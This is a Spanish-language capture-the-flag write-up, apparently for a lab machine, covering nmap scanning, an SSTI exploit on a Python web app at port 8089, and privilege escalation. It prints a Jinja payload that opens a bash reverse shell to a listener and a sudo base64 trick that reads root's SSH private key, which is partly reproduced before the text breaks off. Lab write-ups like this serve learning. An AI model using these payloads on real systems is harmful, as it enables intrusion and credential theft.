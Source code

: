 
- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

**Conclusiones:** La web en el puerto **8089** usa **Python** -> posible **SSTI**.

# EXPLOTACION

Al revisar la web que hay en el puerto **8089**, vemos que hay una especie de login. Si lo rellenamos, nos muestra un Hola y lo que metamos. Si ponemos:

   ```bash

{{7 + 7}} -> Hola 14

```

Por lo que nos hace la suma y estaríamos ante un **SSTI** , así que vamos a meter lo siguiente para darnos una reverse shell , mientras nos ponemos en escucha por el puerto 443 (**nc -nlvp 443**):

   ```bash

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1 "').read() }}

```

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
verde@9864c56671be:~$ sudo -l
Matching Defaults entries for verde on 9864c56671be:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User verde may run the following commands on 9864c56671be:
    (root) NOPASSWD: /usr/bin/base64

```

Vemos **base64** con permisos SUDO, probamos a ver si root tiene una clave privada en su directorio personal:
   ```bash
verde@9864c56671be:/var$ sudo base64 /root/.ssh/id_rsa | base64 --decode

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABAHul0xZQ
r68d1eRBMAoL1IAAAAEAAAAAEAAAIXAAAAB3NzaC1yc2EAAAADAQABAAACAQDbTQGZZWBB
VRdf31TPoa0wcuFMcqXJhxfX9HqhmcePAyZMxtgChQzYmmzRgkYH6jBTXSnNanTe4A0KME
c/77xWmJzvgvKyjmFmbvSu9sJuYABrP7yiTgiWY752nL4jeX5tXWT3t1XchSfFg50CqSfo
KHXV3Jl/vv/alUFgiKkQj6Bt3KogX4QXibU34xGIc24tnHMvph0jdLrR7BigwDkY2jZKOt
0aa7zBz5R2qwS3gT6cmHcKKHfv3pEljglomNCHhHGnEZjyVYFvSp+DxgOvmn1/pSEzUU4k
P/42fNSeERLcyHdVZvUt9PyPJpDvEQvULkqvicRSZ4VI0WmBrPwWWth4SMFOg+wnEIGvN4
tXtasHzHvdK9Lue2e3YiiFSOOkl0ZjzeYSBFZg3bMvu32SXKrvPjcsDlG1eByfqNV+lp2g
6EiGBk1eyrqb3INWp/KqVHvDObgC8aqg3SGI/6LM3wGdZ5tdEDEtELeHrrPtS/Xhhnq/cf
MNdrV9bsba/z9amMVWhAAlfX8xb4W7rdhgGH20PxaOfCZYQM6qjAClLBWP/rsX/3FGopi7
/fn6sD728szK2Q3nOoco+kBAdovd5vLOJxhbTec/QPPvNNS2zvGYv4liNoRQ9x8otaYdV+
+vvWPUk/oI3IaL15PWuD5o6SWTvpdSRY3OJhDVRR16jQAAB1AAatpK/Zsig5ZccWbZCeCG
bc3wbJWERECc8LV5Z3AyEwlvVxYiWNfqAso3YSx/e79qHy8yI5rSzwn344A/gtABC1zq9I
   ```